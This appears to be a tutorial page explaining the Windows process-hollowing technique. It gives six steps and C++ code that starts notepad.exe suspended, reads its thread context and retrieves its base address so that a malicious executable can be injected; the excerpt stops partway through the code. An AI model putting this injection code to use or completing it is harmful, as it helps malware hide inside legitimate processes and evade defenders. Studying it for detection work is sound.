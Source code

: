 ## Steps
1. `Create a Suspended Process:` A legitimate process (e.g., notepad.exe) is created in a suspended state to prevent execution while it is being hollowed.
2. `Retrieve Context:` The thread context of the suspended process is retrieved. This includes register values that will be important for modifying execution flow.
3. `Unmap Sections:` The memory section of the target process is unmapped using the `NtUnmapViewOfSection` function, freeing up memory space for the malicious code.
4. `Inject PE File:` The malicious PE file is loaded from disk, and its headers and sections are written into the target process's memory.
5. `Relocate if Necessary:` If the base address of the PE file differs from that of the suspended process, relocations are performed to adjust the addresses in the PE file accordingly.
6. `Set New Entry Point:` The new entry point (the address of the malicious code) is set in the thread context, and the thread is resumed to execute the injected code.

## Walkthrough

The code expects one argument — the path to the malicious executable (PE file) to be injected. If the user does not provide it, the program prints usage instructions and exits.

```cpp
if (argc != 2) {
    printf("Usage: Process Hollowing.exe [Binary you want to Inject]\n");
    return 0;
}

```
This code creates a new process (notepad.exe) in a suspended state using the `CreateProcessA` function. This prevents the process from executing right away, allowing it to be modified before it starts running.
```cpp
    // Creating Suspended Process And Mapping a File To Memory
	LPSTARTUPINFOA startupInfo = new STARTUPINFOA();
	PROCESS_INFORMATION procInfo;


	printf("[+] Creating Notepad.exe as Suspended Process.\n");
	CreateProcessA("C:\\Windows\\System32\\notepad.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, startupInfo, &procInfo);
```
The `GetThreadContext` function retrieves the context of the main thread of the suspended process. The context contains the current state of the CPU registers, which will be important later for modifying the execution flow.
```cpp
	// Get All The Register Values
	printf("[+] Getting Current Context.\n");
	LPCONTEXT threadContext = new CONTEXT();
	threadContext->ContextFlags = CONTEXT_FULL;
	if (!GetThreadContext(procInfo.hThread, threadContext)) {
		printf("[-] Error getting context\n");
		return 0;
	}
```
The code uses `ReadProcessMemory` to get the base address of the suspended process (the starting address where its memory is loaded).
*  For x86 (32-bit), the base address is retrieved from `Ebx + 8`. For x64 (64-bit), it's retrieved from `Rdx + (sizeof(SIZE_T) * 2)`. The difference is due to variations in how registers work between the two architectures.
```cpp
  	// Get The Base Address Of The Suspended Process
	PVOID baseAddress;

#ifdef _X86_ 
	ReadProcessMemory(procInfo.hProcess, (PVOID)(threadContext->Ebx + 8), &baseAddress, sizeof(PVOID), NULL);
```
